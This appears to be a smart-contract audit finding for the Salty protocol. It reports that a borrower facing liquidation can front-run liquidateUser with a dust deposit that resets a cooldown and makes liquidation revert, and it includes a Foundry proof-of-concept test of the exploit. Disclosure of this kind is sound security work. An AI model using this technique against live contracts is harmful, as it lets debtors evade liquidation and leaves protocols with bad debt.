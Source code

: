Malicious user can perform front-running of the liquidation function by depositing small amounts of tokens to his position, incrementing the user.cooldownExpiration variable. Consequently, the execution of the liquidation function will be reverted with the error message Must wait for the cooldown to expire. This vulnerability could lead to attackers evading liquidation, potentially causing the system to enter into debt as liquidations are avoided.

## Proof of Concept
A test case, named testUserLiquidationMayBeAvoided, has been created to demonstrate the potential misuse of the system. The test involves the following steps:

User Alice deposits and borrow the maximum amount.
The collateral price crashes.
Alice maliciously front-runs the liquidation execution by depositing a the minimum amount using the collateralAndLiquidity::depositCollateralAndIncreaseShare function.
The liquidation transaction is reverted by "Must wait for the cooldown to expire" error.
```solidity
// Filename: src/stable/tests/CollateralAndLiquidity.t.sol:TestCollateral
// $ forge test --match-test "testUserLiquidationMayBeAvoided" --rpc-url https://yoururl -vv
//
    function testUserLiquidationMayBeAvoided() public {
        // Liquidatable user can avoid liquidation
        //
		// Have bob deposit so alice can withdraw everything without DUST reserves restriction
        _depositHalfCollateralAndBorrowMax(bob);
        //
        // 1. Alice deposit and borrow the max amount
        // Deposit and borrow for Alice
        _depositHalfCollateralAndBorrowMax(alice);
        // Check if Alice has a position
        assertTrue(_userHasCollateral(alice));
        //
        // 2. Crash the collateral price
        _crashCollateralPrice();
        vm.warp( block.timestamp + 1 days );
        //
        // 3. Alice maliciously front run the liquidation action and deposit a DUST amount
        vm.prank(alice);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(PoolUtils.DUST + 1, PoolUtils.DUST + 1, 0, block.timestamp, false );
        //
        // 4. The function alice liquidation will be reverted by "Must wait for the cooldown to expire"
        vm.expectRevert( "Must wait for the cooldown to expire" );
        collateralAndLiquidity.liquidateUser(alice);
    }
```

## Lines of code
https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L140
https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L70
